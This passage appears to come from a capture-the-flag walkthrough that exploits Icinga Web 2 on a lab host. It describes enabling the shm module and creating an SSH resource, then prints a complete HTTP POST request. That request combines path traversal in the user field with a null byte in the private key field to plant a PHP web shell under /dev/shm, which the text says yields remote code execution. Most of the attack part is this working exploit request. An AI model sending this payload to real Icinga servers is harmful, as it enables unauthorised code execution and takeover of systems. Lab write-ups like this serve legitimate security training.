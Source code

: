Then, we can quickly enable the `shm` module in `/config/moduleenable`.

<figure><img src="../../.gitbook/assets/image (32) (5) (1).png" alt=""><figcaption></figcaption></figure>

Afterwards, we need to create a new resource with a private SSH key and upload it. Thsi can be done through `/config/resource` and adding resources for SSH Identities. Afterwards, we can simply send another request with our exploit:

{% code overflow="wrap" %}
```http
POST /icingaweb2/config/createresource HTTP/1.1
Host: icinga.cerberus.local:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Icinga-Accept: text/html
X-Icinga-Container: col2
X-Icinga-WindowId: jaevlhxwkugs_fgnrls
X-Requested-With: XMLHttpRequest
Content-Length: 287
Origin: http://icinga.cerberus.local:8080
Connection: close
Referer: http://icinga.cerberus.local:8080/icingaweb2/config/resource
Cookie: Icingaweb2=tbt6c7vhlitggtddqjs9911s4v; icingaweb2-session=1679242760; icingaweb2-tzo=-14400-1

type=ssh&name=notakey&user=.../../../../../../../dev/shm/shell.php&private_key=file:///etc/icingaweb2/ssh/test\x00<?php+system($_REQUEST['cmd']);?>&formUID=form_config_resource&CSRFToken=287102571%7Cfe7a12539b6a50fd04400ed33c28c9cd4db0ae08f0d2333067009010bd9c1861&btn_submit=Save+Changes
```
{% endcode %}

Visting the URL below would give us RCE!

<figure><img src="../../.gitbook/assets/image (13) (1) (5).png" alt=""><figcaption></figcaption></figure>
